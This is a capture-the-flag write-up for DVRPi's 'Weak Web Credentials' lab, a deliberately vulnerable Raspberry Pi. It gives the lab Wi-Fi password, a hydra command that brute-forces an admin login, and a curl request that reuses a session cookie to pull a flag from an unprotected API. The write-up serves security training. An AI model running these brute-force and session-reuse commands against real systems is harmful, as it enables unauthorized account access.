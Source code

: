 # Weak Web Credentials - Write-Up

## Overview
**Challenge Name**: Web Weak Credentials  
**Difficulty**: Low  
**Category**: Web Security  
**Goal**: Exploit login and API vulnerabilities to retrieve a flag.

## What You’ll Need
- Browser or `curl`.
- Brute-force tool (e.g., `hydra` or `burp`.).
- UART-to-USB adapter (GPIO 4: RX, 6: Ground, 8: TX; 115200 baud).
- Terminal emulator (`minicom`)[optional].
- Enumeration Utility (e.g., `nmap`).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).

## Challenge Description
A web server (`http://192.168.4.1:8008`) hosts a PHP application with a login page vulnerable to brute force and an insecure API. Brute-force the login to access the API and retrieve the flag.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join SSID `DVRPI` (password: `dvrpiconnect`).
     
2. **Brute-Force Login**:
   
   - Visit `http://192.168.4.1:8008/login.php`.
   - Using `hydra`:
     
     ```bash
     hydra -l admin -P wordlist.txt 192.168.4.1:8008 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
     ```
     - Username: `admin`.
       
4. **Exploit API**:
   - Access `/api/getflag` with session cookie:
     
     ```bash
     curl -b "PHPSESSID=your_session_id" http://192.168.4.1:8008/api/getflag.php
     ```
     - Retrieve: `flag{ ... }`.

## What You Learn
- Brute force attacks.
- API security weaknesses.
- Session management in web applications.

## Notes
- **Wi-Fi AP**: Static IP 192.168.4.1, DHCP for clients.
- Check `journalctl -u nginx` for logs.

## Resources
- **DVRPi Documentation**: `/challenges/07. Weak Web Credentials - Write-Up.md`.
  
---

**Author**: [Exploit Security Team](https://www.exploitsecurity.io)  
**License**: GPL V3.0  
**Repository**: [DVRPi GitHub](https://github.com/exploitsecurityio/DVRPi)  
**Last Updated**: May 25, 2025

